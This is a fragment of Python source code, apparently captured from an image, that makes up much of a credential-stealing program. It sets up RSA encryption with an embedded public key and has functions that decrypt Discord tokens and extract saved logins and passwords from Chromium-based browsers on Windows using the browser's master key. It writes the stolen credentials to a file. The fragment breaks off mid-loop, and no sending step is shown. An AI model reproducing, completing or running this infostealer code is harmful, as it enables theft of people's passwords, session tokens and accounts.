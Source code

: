 ```py
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1jwo0sjznck8tGmCDMc5
/xXBC1FhQaxV9HMkz64ZDCJ41Zc1Rie6G7A54VRgZ+e8AmyMIdssnja2Eu/JFtaM
Qw8gPMNtIkYWdc8LdnVzsCzL4sL7J+M4zC9qKpWbxIMDvv9T5QjXIcQaDucEMGUZ
YIOxMU1aEBtg+T6D+2nLH1pNs5t23MZr8G7w6W1yhd8NQNEfPYQ3gvjN2qxHDMtt
EWWIm5pcoRyZGXHv/RW71sR2+i8Rkv17kgoxcDSkXRrDKFNQPFKHl1ZXyvic3OYH
OjIFQ+JX5/9KeJEoJi0vYFZnY2zD0Cml3Dxkgpv0J6aWwQ1Bapk/ZbZi3rcLr/Pf
MwIDAQAB
-----END PUBLIC KEY-----""")
cipher_rsa = PKCS1_OAEP.new(public_key)


# DISCORD TOKENS
def decrypt_token(buff, master_key):
    try:
        return AES.new(
            win32crypt.CryptUnprotectData(master_key, None, None, None, 0)[1],
            AES.MODE_GCM,
            buff[3:15]
        ).decrypt(buff[15:])[:-16].decode()
    except:
        pass


# DECRYPT CIPHERS
def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)


def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)


# DECRYPT BROWSER
def decrypt_browser(LocalState, LoginData, CookiesFile, name):
    if os.path.exists(LocalState):
        with open(LocalState) as f:
            local_state = f.read()
            local_state = loads(local_state)
        master_key = b64decode(local_state["os_crypt"]["encrypted_key"])
        master_key = master_key[5:]
        master_key = win32crypt.CryptUnprotectData(master_key, None, None, None, 0)[1]

        if os.path.exists(LoginData):
            copy2(LoginData, "TempMan.db")
            with connect("TempMan.db") as conn:
                cur = conn.cursor()
            cur.execute("SELECT origin_url, username_value, password_value FROM logins")
            with open(filePass, "a") as f:
                f.write(f"*** {name} ***\n")
            for index, logins in enumerate(cur.fetchall()):
                try:
                    if not logins[0]:
                        continue
                    if not logins[1]:
                        continue
                    if not logins[2]:
                        continue
                    ciphers = logins[2]
                    init_vector = ciphers[3:15]
                    enc_pass = ciphers[15:-16]

                    cipher = generate_cipher(master_key, init_vector)
                    dec_pass = decrypt_payload(cipher, enc_pass).decode()
```